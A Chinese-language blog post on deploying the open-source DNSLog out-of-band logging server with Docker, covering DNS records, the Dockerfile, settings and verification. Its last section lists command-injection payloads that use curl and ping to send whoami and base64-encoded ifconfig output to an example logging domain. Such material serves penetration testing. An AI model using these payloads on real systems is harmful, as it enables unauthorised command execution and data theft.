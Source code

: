 Title:使用docker搭建dnslog服务器：python版开源cloudeye的部署
Date: 2018-01-04 10:20
Category: 基础知识
Tags: dnslog,docker
Slug: 
Authors: bit4
Summary: python版开源cloudeye的部署



本文档主要记录使用docker搭建dnslog的过程。

https://github.com/BugScanTeam/DNSLog

感谢[草粉师傅](https://github.com/coffeehb)的帮助

### 0x0、域名和配置

搭建并使用 DNSLog，需要拥有两个域名：

1. 一个作为 NS 服务器域名(例:code2sec.com)：在其中设置两条 A 记录指向我们的公网 IP 地址（无需修改DNS服务器，使用运营商默认的就可以了）：

```
ns1.code2sec.com  A 记录指向  10.11.12.13
ns2.code2sec.com  A 记录指向  10.11.12.13
```

2. 一个用于记录域名(例: 0v0.com)：修改 0v0.com 的 NS 记录为 1 中设定的两个域名（无需修改DNS服务器，使用运营商默认的就可以了）：

```
NS	*.0v0.com	ns1.code2sec.com
NS	*.0v0.com	ns2.code2sec.com
```

<u>注意：按照dnslog的说明是修改NS记录，但是自己的部署中修改了好几天之后仍然不正常，就转为修改DNS服务器，而后成功了。修改DNS服务器之后就无需在域名管理页面设置任何DNS记录了，因为这部分是在DNSlog的python代码中实现的。</u>

![changeNameServer](img/docker+dnslog/changeNameServer.png)

### 0x1、docker镜像构造

dockerfile内容如下

```dockerfile
FROM ubuntu:14.04

RUN sed -i 's/archive.ubuntu.com/mirrors.ustc.edu.cn/g' /etc/apt/sources.list

RUN apt-get update -y && apt-get install -y python && apt-get install python-pip -y && apt-get install git -y
RUN git clone https://github.com/BugScanTeam/DNSLog
WORKDIR /DNSLog/dnslog
RUN pip install -r requirements.pip

COPY ./settings.py /DNSLog/dnslog/dnslog/settings.py

COPY ./start.sh /DNSLog/dnslog/start.sh
RUN chmod a+x start.sh

EXPOSE 80

```

下载 `dnslog/dnslog/settings.py`并对如下字段进行对应的修改，保持settings.py：

```python
# 做 dns 记录的域名
DNS_DOMAIN = '0v0.com'

# 记录管理的域名, 这里前缀根据个人喜好来定
ADMIN_DOMAIN = 'admin.0v0.com'

# NS域名
NS1_DOMAIN = 'ns1.code2sec.com'
NS2_DOMAIN = 'ns2.code2sec.com'

# 服务器外网地址
SERVER_IP = '10.11.12.13'
```

创建一个dnslog的启动脚本，保存为start.sh：

```bash
python manage.py runserver 0.0.0.0:80 &
```

准备好如上3个文件后，可以构建镜像了

```bash
docker build .
docker tag e99c409f6585 bit4/dnslog
docker run -it -p 80:80 -p 53:53/udp bit4/dnslog
#注意这个53udp端口，感谢CF_HB师傅的指导
./start.sh
```



### 0x2、配置验证

使用nslookup命令进行验证，如果可以直接测试xxx.test.0v0.com了，说明所有配置已经全部生效；如果直接查询失败，而指定了dns服务器为 ns1.code2sec.com查询成功，说明dns服务器配置正确了，但是ns记录的设置需要等待同步或者配置错误。

```
nslookup
xxx.test.0v0.com
server ns1.code2sec.com
yyy.test.0v0.com
```

当然，在查询的同时可以登录网页端配合查看，是否收到请求。

在我自己的部署中，发现修改ns记录很久后仍然不能直接查询到 xxx.test.0v0.com，想到NS记录配置和DNS服务器设置都是修改解析的域名的服务器配置，就尝试修改了DNS服务器为 ns1.code2sec.com, 结果就一切正常了。



### 0x3、管理网站

后台地址：http://0v0.com/admin/  admin admin

用户地址：http://admin.0v0.com/ test 123456

更多详细问题参考项目https://github.com/BugScanTeam/DNSLog

**记得修改默认的账号密码！**



### 0x4、payload使用技巧

兼容windows和linux的命令

```bash
ipconfig || ifconfig
#||是或逻辑， 如果第一个命令执行成功，将不会执行第二个；而如果第一个执行失败，将会执行第二个。

使用实例：
ping -n 3 xxx.test.0v0.com || ping -c 3 xxx.test.0v0.com
```



命令优先执行

```bash
%OS%
#windows的系统变量，用set命令可以查看所有可用的变量名称
`whomai` 
#linux下的命令优先执行,注意是反引号（`）这个字符一般在键盘的左上角，数字1的左边

测试效果如下:
root@ubuntu:~# echo `whoami`@bit4
root@bit4

E:\>echo %OS%@bit4
Windows_NT@bit4

使用实例：
curl "http://xxx.test.0v0.com/?`whoami`"
ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.0v0.com
#DNS记录中获取源IP地址
```

![command_first](img/docker+dnslog/command_first.png)

消除空格

```bash
id|base64

使用实例：

curl test.0v0.com/`ifconfig|base64 -w 0` 
#-w 0 输出内容不换行，推荐这个方法
curl test.0v0.com/`ifconfig|base64|tr '\n' '-'`
#将换行符替换为-，这个方法不是很方便，解密的时候还需要替换回来
```

![base64](img/docker+dnslog/base64.png)

window下的curl

```bash
start http://xxxxxxxxx.test.0v0.com
#该命令的作用是通过默认浏览器打开网站，缺点是会打开窗口
```

